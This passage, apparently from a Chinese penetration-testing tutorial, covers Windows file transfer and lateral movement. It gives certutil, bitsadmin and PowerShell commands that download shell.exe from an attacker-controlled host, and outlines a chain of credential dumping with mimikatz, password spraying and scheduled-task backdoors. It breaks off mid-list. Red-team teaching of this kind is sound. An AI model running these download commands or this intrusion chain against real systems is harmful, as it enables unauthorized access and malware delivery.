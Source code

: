 ### [通过搭建SMB服务器](#toc_smb)

SMB（Server Message Block，服务器消息块），又称CIFS（Common Internet File System，网络文件共享系统），主要功能是使网络上的计算机能够共享计算机文件、打印机、串行端口和通信等资源。SMB消息一般使用NetBIOS协议或TCP发送，分别使用端口139或445，目前倾向于使用445端口。

在linux上，可以通过 [https://github.com/fortra/impacket/blob/master/impacket/smbserver.py](https://github.com/fortra/impacket/blob/master/impacket/smbserver.py) 来搭建smb服务器。

```plain
mkdir /root/smbshare python smbserver.py mysmb /root/smbshare -smb2support
```

### [通过Windows自带工具](#toc_windows)

#### [**Certutil**](#toc_certutil)

Certutil 是Windows自带的命令行工具，用于管理Windows证书并作为证书服务器的一部分安装。Certutil提供了从网络下载文件的功能。

```plain
certutil -urlcache -split -f http://192.168.1.1:8000/shell.exe c:\users\public\shell.exe 
//从192.168.1.1:8000下载shell.exe到本地c:\users\public\目录下
```

#### [**BITSAdmin**](#toc_bitsadmin)

BITSAdmin用于创建、下载和上传作业，监视其进度。Windows7及以后的系统自带BitsAdmin工具。

```plain
bitsadmin /transfer test http://192.168.1.1:8000/1.txt c:\users\mytools\a.txt 
// 创建一个名为test的bitsadmin任务，从192.168.1.1:8000下载1.txt,保存为c:\users\mytools\a.txt
```

#### [**powershell**](#toc_powershell)

通过创建WebClient对象来实现文件下载

```plain
(New-Object Net.WebClient).DownloadFile("http://192.168.1.1:8000/shell.exe", "c:\users\public\shell.exe") 
powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.1.1:8000/shell.exe','c:\users\public\shell.exe')"
```

# [at & schtasks & sc横向](#toc_at-schtasks-sc)

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？

使用 at&schtasks 命令，创建计划任务，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。

**获取到某域主机权限->minikatz 得到密码（明文，hash）->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典->尝试连接->创建计划任务(at|schtasks)->执行文件可为后门或者相关命令**

### [利用流程](#toc__1)

\\1. 建立 IPC 链接到目标主机

\\2. 拷贝要执行的命令脚本到目标主机
